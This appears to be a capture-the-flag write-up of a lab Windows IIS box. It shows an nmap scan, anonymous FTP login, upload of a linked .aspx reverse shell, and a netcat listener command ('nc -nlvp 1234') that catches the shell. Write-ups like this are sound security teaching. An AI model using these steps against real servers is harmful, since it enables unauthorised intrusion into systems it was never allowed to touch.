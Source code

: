 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Sun Jul 17 23:23:13 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.072s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 07-18-22  06:20AM                 2887 reverse.aspx
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose|phone
Running (JUST GUESSING): Microsoft Windows 7|8|Phone|2008|8.1|Vista (90%)
OS CPE: cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Embedded Standard 7 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8.1 (90%), Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (90%), Microsoft Windows 7 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   71.09 ms 10.10.14.1
2   71.10 ms 10.10.10.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 17 23:25:14 2022 -- 1 IP address (1 host up) scanned in 121.23 seconds
```
**Initial Shell Vulnerability Exploited:** </br>
Anonymous login was allowed through the FTP Service: </br>
<img src="images/devel/anonymous_login.png" alt="anonymous_login" width="700" height="150"/> </br> </br>
I logged in using the username ```anonymous``` and an empty password. </br>
<img src="images/devel/ftp_login.png" alt="ftp_login" width="700" height="150"/> </br> </br>
Since I could log into the FTP Service, I thought it might be possible to upload a malicious file there, and I tried uploading an .aspx reverse shell. </br>
I figured I should upload an .aspx reverse shell, because the webserver was ```Microsoft IIS``` </br>
I uploaded this [webshell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) I found on GitHub. </br>
I transferred it from my Kali machine to the FTP service with ```put``` command:
<img src="images/devel/ftp_upload_revshell.png" alt="ftp_upload_revshell" width="700" height="150"/> </br> </br>
I modified it to my IP Address and set it to 1234 port, and opened a netcat listener on my Kali machine on port 1234 with: ```nc -nlvp 1234``` </br>
<img src="images/devel/initial_shell_poc.png" alt="initial_shell_poc" width="700" height="250"/> </br> </br>
